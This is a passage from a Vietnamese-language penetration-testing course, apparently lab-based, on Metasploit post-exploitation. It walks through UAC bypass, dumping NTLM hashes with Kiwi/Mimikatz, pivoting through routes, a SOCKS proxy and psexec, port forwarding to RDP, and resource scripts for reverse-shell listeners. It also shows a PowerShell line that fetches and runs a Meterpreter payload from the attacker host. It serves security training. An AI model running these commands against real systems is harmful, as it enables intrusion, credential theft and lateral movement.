   12  exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   ...
```

                                                    *Listing 69 - Tìm module bypass UAC*

Việc tìm kiếm trả về khá nhiều kết quả. Một bypass UAC rất hiệu quả trên các hệ thống Windows hiện đại là `exploit/windows/local/bypassuac_sdclt`, nhắm vào file nhị phân của Microsoft là `sdclt.exe`. File nhị phân này có thể bị lạm dụng để bypass UAC bằng cách spawn một process với integrity level High.

Để sử dụng module này, chúng ta sẽ kích hoạt nó và thiết lập các tùy chọn SESSION và LHOST như trong listing sau. Thiết lập SESSION cho các module post-exploitation cho phép chúng ta thực thi exploit trực tiếp trên session đang hoạt động. Sau đó, chúng ta có thể nhập run để khởi chạy module.

```
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION                        yes       The session to run this module on

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 9
SESSION => 32
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 192.168.119.4
LHOST => 192.168.119.4
msf6 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[!] This exploit requires manual cleanup of 'C:\Users\offsec\AppData\Local\Temp\KzjRPQbrhdj.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (200774 bytes) to 192.168.50.223
[*] Meterpreter session 10 opened (192.168.119.4:4444 -> 192.168.50.223:49740) at 2022-08-04 09:03:54 -0400
[*] Registry Changes Removed

meterpreter > 
```

                                 *Listing 70 - Thực thi bypass UAC bằng một Meterpreter session*

Listing 70 cho thấy module post-exploitation bypass UAC của chúng ta đã tạo một Meterpreter session mới.

Hãy kiểm tra integrity level của process như trước.

```
meterpreter > shell
Process 2328 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
High
```

                                                            *Listing 71 - Xem xét integrity level*

Tốt! Listing 71 cho thấy process mà payload của chúng ta đang chạy có integrity level High và do đó chúng ta đã bypass UAC thành công.

Ngoài khả năng đưa một session đang hoạt động về background và thực thi module thông qua session đó, chúng ta cũng có thể load các extension trực tiếp bên trong session đang hoạt động bằng lệnh load.

Một ví dụ rất hay là Kiwi, một Meterpreter extension cung cấp các khả năng của Mimikatz. Vì Mimikatz cần quyền SYSTEM, hãy thoát session Meterpreter hiện tại, khởi động listener lại, thực thi met.exe với tư cách người dùng luiza trong bind shell, và nhập getsystem.

```
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: gokdtcex) Redirecting stageless connection from /tiUQIXcIFB-TCZIL8eJASw2GMM8KqsU3KADjTJhh8lSgwsEBpqGfM1Q0FsWwlgyPzfFi9gci43oVxGCxcYQy0mH0 with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12.2; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: gokdtcex) Attaching orphaned/stageless session...
[*] Meterpreter session 11 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-04 10:10:16 -0400

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

*Listing 72 - Dùng getsystem trong một Meterpreter session mới được tạo thông qua việc thực thi met.exe trong bind shell*

Bây giờ, hãy nhập load với kiwi làm đối số để load module Kiwi. Sau đó, chúng ta có thể dùng help để hiển thị các lệnh của module Kiwi. Cuối cùng, chúng ta sẽ dùng creds_msv để lấy các credential LM và NTLM.

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > help

...

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)

meterpreter > creds_msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
...
```

                *Listing 73 - Load module Kiwi và thực thi creds_msv để lấy credential của hệ thống*

Listing 73 cho thấy chúng ta có thể lấy NTLM hash của luiza thành công.

Hãy tóm tắt ngắn gọn những gì chúng ta đã làm trong phần này. Đầu tiên, chúng ta đã thảo luận post-exploitation modules trong Metasploit là gì và cách sử dụng chúng. Sau đó, chúng ta dùng một module post-exploitation trên một session để bypass UAC và giành được một shell với integrity level cao. Tiếp theo, chúng ta load một Meterpreter extension tên Kiwi, cung cấp các khả năng của Mimikatz để trích xuất credential từ một hệ thống với quyền hạn đủ cao.

---

## 3.3. Pivoting với Metasploit

---

Khả năng pivot sang một mục tiêu hoặc mạng khác là một kỹ năng thiết yếu đối với mọi penetration tester. Trong Port Redirection and Pivoting, chúng ta đã học nhiều kỹ thuật khác nhau để thực hiện pivoting. Thay vì sử dụng các kỹ thuật này một cách thủ công, chúng ta cũng có thể dùng Metasploit để thực hiện chúng.

Như trong các phần trước, chúng ta sẽ kết nối tới bind shell trên cổng 4444 trên máy ITWK01. Giả sử rằng hiện tại chúng ta đang thu thập thông tin trên mục tiêu. Ở bước này, chúng ta sẽ xác định một network interface thứ hai.

```
C:\Users\luiza> ipconfig
ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::c489:5302:7182:1e97%11
   IPv4 Address. . . . . . . . . . . : 192.168.50.223
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::b540:a783:94ff:89dc%14
   IPv4 Address. . . . . . . . . . . : 172.16.5.199
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

C:\Users\luiza>
```

                                       *Listing 74 - Hai interface trên client bị compromise*

Listing 74 cho thấy interface thứ hai có IP được gán là 172.16.5.199. Chúng ta có thể thử xác định các host khác còn sống trong mạng thứ hai này bằng cách tận dụng các phương pháp từ active information gathering. Trước khi làm vậy, hãy khởi chạy một Meterpreter shell trên mục tiêu bị compromise của chúng ta bằng cách tải và thực thi met.exe cũng như khởi động multi/handler tương ứng như trước.

```
[*] Started HTTPS reverse handler on https://192.168.119.4:443
...
[*] Meterpreter session 12 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-05 05:13:42 -0400

meterpreter > 
```

                         *Listing 75 - Session mới được mở thông qua việc thực thi met.exe*

Bây giờ khi chúng ta đã có một session hoạt động trên hệ thống bị compromise, chúng ta có thể đưa nó về background. Để thêm một route tới một mạng có thể truy cập thông qua một host bị compromise, chúng ta có thể dùng route add với thông tin mạng và session ID mà route áp dụng. Sau khi thêm route, chúng ta có thể hiển thị các route hiện tại bằng route print.

```
meterpreter > bg
[*] Backgrounding session 12...

msf6 exploit(multi/handler) > route add 172.16.5.0/24 12
[*] Route added

msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12

[*] There are currently no IPv6 routes defined.
```

                                 *Listing 76 - Thêm route tới mạng 172.16.5.0/24 từ session 2*

Với một đường đi tới mạng nội bộ đã được tạo, chúng ta có thể enumerate subnet này. Lúc này chúng ta có thể scan toàn bộ mạng để tìm các host còn sống bằng một module auxiliary port scan. Vì việc scan này sẽ mất khá nhiều thời gian để hoàn thành, hãy rút gọn bước này bằng cách chỉ scan host còn sống khác trong mạng thứ hai. Do đó, thay vì đặt giá trị RHOSTS là 172.16.5.0/24 như khi muốn scan cả mạng, chúng ta đặt nó là 172.16.5.200. Hiện tại, chúng ta chỉ muốn scan các port 445 và 3389.

```
msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389

msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.5.200:         - 172.16.5.200:445 - TCP OPEN
[+] 172.16.5.200:         - 172.16.5.200:3389 - TCP OPEN
[*] 172.16.5.200:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

                                                 *Listing 77 - Port scan một địa chỉ IP nội bộ*

Listing 77 cho thấy 172.161.5.200 có các port 445 và 3389 mở. Hãy sử dụng hai module cho SMB và RDP thông qua pivot host ITWK01 để thực hiện các thao tác trên mục tiêu.

Đầu tiên, chúng ta sẽ cố gắng sử dụng module `psexec` để giành quyền truy cập vào mục tiêu thứ hai với người dùng luiza. Trong phần trước, chúng ta đã lấy NTLM hash thông qua Kiwi. Giả sử rằng chúng ta có thể crack NTLM hash thành công và mật khẩu clear-text là BoccieDearAeroMeow1!. Để psexec thành công, luiza phải là local administrator trên máy thứ hai. Trong ví dụ này, hãy giả sử thêm rằng chúng ta đã xác nhận điều này thông qua các kỹ thuật information gathering.

Hãy dùng exploit/windows/smb/psexec và đặt SMBUser là luiza, SMBPass là BoccieDearAeroMeow1!, và RHOSTS là 172.16.5.200.

Cần lưu ý rằng route đã được thêm chỉ hoạt động với các kết nối được thiết lập. Vì vậy, shell mới trên mục tiêu phải là một bind shell như windows/x64/meterpreter/bind_tcp, nhờ đó cho phép chúng ta dùng set route để kết nối tới nó. Trong hầu hết tình huống, payload reverse shell sẽ không thể tìm đường quay trở lại hệ thống tấn công của chúng ta vì mục tiêu không có route được định nghĩa cho mạng của chúng ta.

```
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza

msf6 exploit(windows/smb/psexec) > set SMBPass "BoccieDearAeroMeow1!"
SMBPass => BoccieDearAeroMeow1!

msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000
```

                              *Listing 78 - Thiết lập tùy chọn cho module exploit psexec*

Bây giờ khi tất cả các tùy chọn đã được thiết lập, chúng ta có thể khởi chạy module.

```
msf6 exploit(windows/smb/psexec) > run

[*] 172.16.5.200:445 - Connecting to the server...
[*] 172.16.5.200:445 - Authenticating to 172.16.5.200:445|ITWK02 as user 'luiza'...
[*] 172.16.5.200:445 - Selecting PowerShell target
[*] 172.16.5.200:445 - Executing the payload...
[+] 172.16.5.200:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 172.16.5.200:8000
[*] Sending stage (200774 bytes) to 172.16.5.200
[*] Meterpreter session 13 opened (172.16.5.199:51785 -> 172.16.5.200:8000 via session 12) at 2022-08-05 07:06:43 -0400

meterpreter > 
```

                                            *Listing 79 - Khởi chạy module exploit psexec*

Listing 79 cho thấy chúng ta đã sử dụng thành công module exploit psexec để có được một Meterpreter shell trên mục tiêu thứ hai thông qua máy bị compromise.

Thay vì thêm route thủ công, chúng ta có thể dùng module post-exploitation autoroute để thiết lập các pivot route thông qua một Meterpreter session hiện có một cách tự động. Để minh họa cách dùng module này, trước tiên chúng ta cần xóa route mà chúng ta đã thiết lập thủ công. Hãy terminate Meterpreter session được tạo thông qua module psexec và xóa tất cả routes bằng route flush.

Bây giờ session duy nhất còn lại là Meterpreter session được tạo bằng cách thực thi met.exe với người dùng luiza. Ngoài ra, kết quả của route print cho biết không có route nào được định nghĩa. Tiếp theo, hãy kích hoạt module `multi/manage/autoroute`, trong đó chúng ta phải đặt session ID làm giá trị cho tùy chọn SESSION. Sau đó, hãy nhập run để khởi chạy module.

```
msf6 exploit(windows/smb/psexec) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  12         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.119.4:443 -> 127.0.0.1 ()

msf6 post(multi/manage/autoroute) > set session 12
session => 12

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ITWK01
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.5.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.50.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

                                                          *Listing 80 - Gọi module autoroute*

Listing 80 cho thấy autoroute đã thêm 172.16.5.0/24 vào routing table.

Bây giờ chúng ta có thể dùng module psexec như trước, nhưng chúng ta cũng có thể kết hợp routes với `module auxiliary server/socks_proxy` để cấu hình một SOCKS proxy. Điều này cho phép các ứng dụng bên ngoài Metasploit Framework tunnel thông qua pivot trên cổng 1080 theo mặc định. Chúng ta đặt tùy chọn SRVHOST thành 127.0.0.1 và VERSION thành 5 để dùng SOCKS version 5.

```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy 

msf6 auxiliary(server/socks_proxy) > show options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)

Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server

msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

                                    *Listing 81 - Thiết lập SOCKS5 proxy bằng module autoroute*

Giờ chúng ta có thể cập nhật file cấu hình proxychains (`/etc/proxychains4.conf`) để tận dụng SOCKS5 proxy.

Sau khi chỉnh sửa file cấu hình, nó sẽ trông như sau:

```
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080
```

                                  *Listing 82 - Cấu hình proxychains đã được cập nhật*

Cuối cùng, chúng ta có thể dùng proxychains để chạy xfreerdp nhằm giành quyền truy cập GUI từ hệ thống Kali Linux của chúng ta tới máy mục tiêu trên mạng nội bộ.

```
kali@kali:~$ sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.5.200:3389  ...  OK
...
Certificate details for 172.16.5.200:3389 (RDP-Server):
        Common Name: itwk02
        Subject:     CN = itwk02
        Issuer:      CN = itwk02
        Thumbprint:  4b:ef:ec:bb:96:7d:03:01:53:f3:03:de:8b:39:51:a9:bb:3f:1b:b2:70:83:08:fc:a7:9a:ec:bb:e7:ed:98:36
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
Password:
...
```

                 *Listing 83 - Giành quyền truy cập remote desktop bên trong mạng nội bộ*

Client xfreerdp mở một cửa sổ mới cung cấp cho chúng ta quyền truy cập vào GUI của ITWK02 trong mạng nội bộ thông qua RDP.



                        *Figure 1: Remote desktop access from Kali Linux to internal network*

Tốt! Figure 1 cho thấy chúng ta đã kết nối thành công tới mục tiêu thứ hai qua RDP bằng cách pivoting.

Chúng ta cũng có thể dùng một kỹ thuật tương tự cho port forwarding bằng lệnh portfwd từ bên trong một Meterpreter session, lệnh này sẽ forward một port cụ thể tới mạng nội bộ.

```
msf6 auxiliary(server/socks_proxy) > sessions -i 12
[*] Starting interaction with 5...

meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]

OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

                                      *Listing 84 - Các tùy chọn có sẵn cho lệnh portfwd*

Chúng ta có thể tạo một port forward từ localhost port 3389 tới port 3389 trên host mục tiêu (172.16.5.200) như trong Listing 85.

```
meterpreter > portfwd add -l 3389 -p 3389 -r 172.16.5.200
[*] Local TCP relay created: :3389 <-> 172.16.5.200:3389
```

                                            *Listing 85 - Forward port forwarding trên cổng 3389*

Hãy kiểm tra bằng cách kết nối tới 127.0.0.1:3389 với xfreerdp để truy cập host bị compromise trong mạng nội bộ.

```
kali@kali:~$ sudo xfreerdp /v:127.0.0.1 /u:luiza             
[08:09:25:307] [1314360:1314361] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[08:09:25:307] [1314360:1314361] [WARN][com.freerdp.crypto] - CN = itwk02
...
```

                   *Listing 86 - Giành quyền truy cập remote desktop bằng port forwarding*

Với kỹ thuật này, chúng ta có thể giành được một remote desktop session trên một host mà nếu không thì chúng ta không thể truy cập từ hệ thống Kali của mình. Tương tự, nếu máy mục tiêu thứ hai được kết nối tới một mạng bổ sung, chúng ta có thể tạo một chuỗi pivot để tiếp cận các host xa hơn.

Trong phần này, chúng ta đã khám phá nhiều phương pháp và module để pivot trong Metasploit. Chúng ta học cách thiết lập route thủ công và tự động thông qua các session hiện có và tương tác với các hệ thống có thể truy cập bởi các route này. Sau đó, chúng ta tận dụng module socks_proxy để tạo một SOCKS proxy nhằm truy cập máy mục tiêu thứ hai với proxychains. Cuối cùng, chúng ta dùng lệnh Meterpreter portfwd để forward các port.

---

# 4. Tự động hóa Metasploit

---

Learning Unit này bao gồm các Learning Objectives sau:

- Tạo resource script
- Sử dụng resource script trong Metasploit

Metasploit tự động hóa nhiều tác vụ và thao tác cho chúng ta, nhưng chúng ta cũng có thể tạo các script để tiếp tục tự động hóa các lệnh lặp đi lặp lại ngay bên trong framework. Những script này được gọi là **Resource Scripts**. Trong Learning Unit này, chúng ta sẽ khám phá cách tạo và sử dụng chúng.

---

## 4.1. Resource Scripts

---

Resource script có thể xâu chuỗi (chain) một loạt các lệnh trong Metasploit console và mã Ruby. Điều này có nghĩa là chúng ta có thể sử dụng các lệnh built-in của Metasploit, viết mã bằng Ruby (vì đây là ngôn ngữ mà Metasploit được phát triển) để quản lý luồng điều khiển cũng như xây dựng các thành phần logic nâng cao cho resource script.

Trong một penetration test, chúng ta có thể cần thiết lập nhiều listener multi/handler mỗi khi muốn nhận một reverse shell đi vào. Chúng ta có thể để Metasploit chạy nền trong suốt thời gian đó hoặc khởi động Metasploit và thiết lập listener thủ công mỗi lần. Ngoài ra, chúng ta cũng có thể tạo một resource script để tự động hóa tác vụ này.

Hãy tạo một resource script khởi động một listener multi/handler cho payload Meterpreter Windows 64-bit dạng non-staged. Để làm điều này, chúng ta có thể tạo một file trong thư mục home của user kali tên là **listener.rc** và mở nó bằng một trình soạn thảo như Mousepad.

Trước tiên, chúng ta cần suy nghĩ về trình tự các lệnh muốn thực thi. Trong ví dụ này, lệnh đầu tiên là kích hoạt module multi/handler. Sau đó, chúng ta đặt payload, trong trường hợp này là **windows/meterpreter_reverse_https**. Tiếp theo, chúng ta có thể đặt các tùy chọn LHOST và LPORT cho phù hợp với nhu cầu.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
```

                                     *Listing 87 - Kích hoạt module, đặt payload và các tùy chọn*

Ngoài ra, chúng ta có thể cấu hình tùy chọn **AutoRunScript** để tự động thực thi một module sau khi một session được tạo. Trong ví dụ này, hãy sử dụng module **`post/windows/manage/migrate`**. Điều này sẽ khiến Meterpreter được spawn tự động khởi chạy một process notepad.exe ở chế độ background và migrate sang process đó. Việc tự động hóa quá trình migrate process giúp tránh các tình huống payload của chúng ta bị kill sớm bởi các cơ chế phòng thủ hoặc do process liên quan bị terminate.

```
set AutoRunScript post/windows/manage/migrate 
```

                                        *Listing 88 - Đặt AutoRunScript thành module migrate*

Hãy cũng đặt **ExitOnSession** thành false để đảm bảo listener tiếp tục chấp nhận các kết nối mới sau khi một session được tạo.

```
set ExitOnSessionfalse
```

 *Listing 89 - Đặt ExitOnSession thành false để giữ multi/handler tiếp tục lắng nghe sau khi có kết nối*

Chúng ta cũng có thể cấu hình các tùy chọn nâng cao như ExitOnSession trong multi/handler và AutoRunScript trong payload bằng cách dùng **`show advanced`** bên trong module đã được kích hoạt hoặc payload đã được chọn.

Cuối cùng, chúng ta sẽ thêm lệnh **run** với các tham số **-z** và **-j** để chạy module dưới dạng một job nền và để tránh việc tự động tương tác với session.

```
run -z -j
```

                                                    *Listing 90 - Lệnh khởi chạy module*

Bây giờ, hãy lưu script và khởi động Metasploit bằng cách nhập **msfconsole** với resource script làm đối số cho tùy chọn **-r**.

```
kali@kali:~$ sudo msfconsole -r listener.rc
[sudo] password for kali:
...

[*] Processing listener.rc for ERB directives.
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
resource (listener.rc)> set LHOST 192.168.119.4
LHOST => 192.168.119.4
resource (listener.rc)> set LPORT 443
LPORT => 443
resource (listener.rc)> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
resource (listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (listener.rc)> run -z -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

                                                      *Listing 91 - Thực thi resource script*

Listing 91 cho thấy tất cả các lệnh của chúng ta đã được thực thi đúng như được chỉ định trong script.

Hãy kết nối tới máy BRUTE2 thông qua RDP với user **justin** và mật khẩu **SuperS3cure1337#**, khởi chạy PowerShell, tải file thực thi Windows độc hại **met.exe** mà chúng ta đã sử dụng trong các phần trước, và thực thi nó.

```
PS C:\Users\justin> iwr -uri http://192.168.119.4/met.exe -Outfile met.exe

PS C:\Users\justin> .\met.exe
```

                     *Listing 92 - Thực thi file Windows executable chứa payload Meterpreter*

Khi met.exe được thực thi, Metasploit sẽ thông báo cho chúng ta về kết nối đi vào.

```
[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.202; (UUID: rdhcxgcu) Redirecting stageless connection from /dkFg_HAPAAB9KHwqH8FRrAG1_y2iZHe4AJlyWjYMllNXBbFbYBVD2rlxUUDdTrFO7T2gg6ma5cI-GahhqTK9hwtqZvo9KJupBG7GYBlYyda_rDHTZ1aNMzcUn1x with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.202; (UUID: rdhcxgcu) Attaching orphaned/stageless session...
[*] Session ID 1 (192.168.119.4:443 -> 127.0.0.1) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (2004)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 5340
[+] Successfully migrated into process 5340
[*] Meterpreter session 1 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-02 09:54:32 -0400
```

        *Listing 93 - Kết nối đi vào và migrate thành công sang process Notepad mới được spawn*

Tốt! Metasploit đã tự động migrate sang process Notepad vừa được spawn.

Thay vì tự tạo resource script, chúng ta cũng có thể sử dụng các resource script đã được Metasploit cung cấp sẵn. Chúng có thể được tìm thấy trong thư mục **scripts/resource/** trong thư mục Metasploit.

```
kali@kali:~$ ls -l /usr/share/metasploit-framework/scripts/resource
total 148
-rw-r--r-- 1 root root  7270 Jul 14 12:06 auto_brute.rc
-rw-r--r-- 1 root root  2203 Jul 14 12:06 autocrawler.rc
-rw-r--r-- 1 root root 11225 Jul 14 12:06 auto_cred_checker.rc
-rw-r--r-- 1 root root  6565 Jul 14 12:06 autoexploit.rc
-rw-r--r-- 1 root root  3422 Jul 14 12:06 auto_pass_the_hash.rc
-rw-r--r-- 1 root root   876 Jul 14 12:06 auto_win32_multihandler.rc
...
-rw-r--r-- 1 root root  2419 Jul 14 12:06 portscan.rc
-rw-r--r-- 1 root root  1251 Jul 14 12:06 run_all_post.rc
-rw-r--r-- 1 root root  3084 Jul 14 12:06 smb_checks.rc
-rw-r--r-- 1 root root  3837 Jul 14 12:06 smb_validate.rc
-rw-r--r-- 1 root root  2592 Jul 14 12:06 wmap_autotest.rc
```

                            *Listing 94 - Liệt kê tất cả resource script được Metasploit cung cấp*

Listing 94 cho thấy có các resource script được cung cấp cho port scanning, brute forcing, protocol enumeration, và nhiều tác vụ khác. Trước khi sử dụng chúng, chúng ta nên xem xét kỹ lưỡng, hiểu rõ, và chỉnh sửa chúng cho phù hợp với nhu cầu của mình.

Một số script trong số này sử dụng global datastore của Metasploit để đặt các tùy chọn như RHOSTS. Khi chúng ta dùng **set** hoặc **unset**, chúng ta đang định nghĩa các tùy chọn trong ngữ cảnh của một module đang chạy. Tuy nhiên, chúng ta cũng có thể định nghĩa giá trị cho các tùy chọn trên toàn bộ các module bằng cách đặt các tùy chọn global. Những tùy chọn này có thể được đặt bằng **setg** và bỏ đặt bằng **unsetg**.

Resource script có thể rất hữu ích để tự động hóa các phần của một penetration test. Chúng ta có thể tạo một tập các resource script cho các tác vụ và thao tác lặp đi lặp lại. Chúng ta có thể chuẩn bị các script đó và sau đó chỉnh sửa chúng cho từng penetration test. Ví dụ, chúng ta có thể chuẩn bị resource script cho listener, pivoting, post-exploitation, và nhiều hơn nữa. Việc sử dụng chúng trên nhiều penetration test có thể giúp chúng ta tiết kiệm rất nhiều thời gian.

